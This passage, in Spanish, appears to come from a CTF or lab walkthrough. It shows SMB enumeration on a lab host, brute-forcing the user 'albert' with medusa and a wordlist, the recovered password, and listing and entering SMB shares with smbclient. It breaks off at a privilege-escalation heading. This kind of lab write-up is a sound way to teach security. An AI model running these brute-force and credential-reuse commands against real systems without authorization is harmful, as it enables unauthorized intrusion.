 ```
 ===============================( Getting printer info for 192.168.5.25 )===============================
                                                                                                                                                             
No printers returned.                                                                                                                                        


enum4linux complete on Wed May 21 03:25:57 2025
```

Vemos que hay un usuario registrado en el sistema que se llama `albert` vamos a probar a realizar `fuerza bruta` con dicho usuario mediante el servidor `SMB` con la herramienta `medusa`.

```shell
medusa -u albert -P <WORDLIST> -h <IP> -M smbnt
```

Info:

```
2025-05-21 03:34:18 ACCOUNT FOUND: [smbnt] Host: 192.168.5.25 User: albert Password: bradley1 [SUCCESS (ADMIN$ - Share Unavailable)]
```

Veremos que hemos encontrado las credenciales del usuario `albert` por lo que vamos a enumerar el servidor `SMB` a ver que vemos.

```shell
smbclient -L //<IP>/ -U albert%bradley1
```

Info:

```
Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        smbshare        Disk      
        IPC$            IPC       IPC Service (Samba 4.9.5-Debian)
        albert          Disk      Home Directories
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP            CROSSROADS
```

Veremos que hay un recurso compartido llamado de la misma forma que la del usuario, vamos a probar a meternos en dicho recurso.

## Escalate user albert

```shell
smbclient //<IP>/albert -U albert%bradley1
```

